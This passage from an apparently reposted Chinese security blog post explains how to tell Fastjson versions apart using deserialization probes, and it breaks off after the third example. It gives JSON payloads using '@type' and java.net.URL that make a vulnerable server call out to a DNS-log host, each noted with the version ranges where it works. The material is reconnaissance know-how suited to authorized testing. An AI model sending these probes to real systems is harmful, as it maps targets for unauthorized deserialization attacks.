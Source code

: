 #  精选3：Fastjson反序列化漏洞区分版本号的方法大集合  
 希潭实验室   2025-07-22 00:33  
  
 Part1 前言   
  
大家好，我是ABC_123  
。欢迎大家关注公众号"希水涵精选录"。  
"希潭实验室"是ABC_123运营的第一个公众号，只发ABC_123本人的原创技术文章；  
而  
"希水涵精选录  
"  
是ABC_123运营的第二个公众号，  
专注于转载精心筛选的高质量技术文章  
。  
ABC_123会从海量的技术文章中摘出精品，  
把真正有价值、有干货的内容推荐给大家  
，同时也欢迎大家积极投稿给我，  
一起把好文章分享给更多人！  
  
转载声明：  
此篇文章的原创作者是f0ng，在此感谢。作者的公众号如下：  
  
  
每次测试遇到fastjson无法定位版本，部分文章里的payload也没有准确的版本范围，抽空对payload做了个测试，这里记录下  
使用常见的payload对fastjson版本进行测试，方便遇到fastjson进行较小范围的版本判断。本篇文章记录下常见的payload对于一些版本的判断测试。  
##   
##  Part2 通过dnslog判断版本   
  
测试的一切payload均采用fastjson的默认配置，本次测试只用到了com.alibaba.fastjson.JSON.parse()  
函数。  
  
#### 测试语句1：【fastjson>=1.2.37】  
```
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://§1§.{{URL}}"}}""}
```  
#### 实验结论：可用范围1.2.37-1.2.83，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句2：  
【fastjson>=1.2.37】  
```
{{"@type":"java.net.URL","val":"http://§1§.{{URL}}"}:0
```  
  
实验结论：  
可用范围1.2.37  
-1.2.83  
，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句3：【fastjson>=1.2.9】  
```
Set[{"@type":"java.net.URL","val":"http://§1§.{{URL}}"}]
```  
  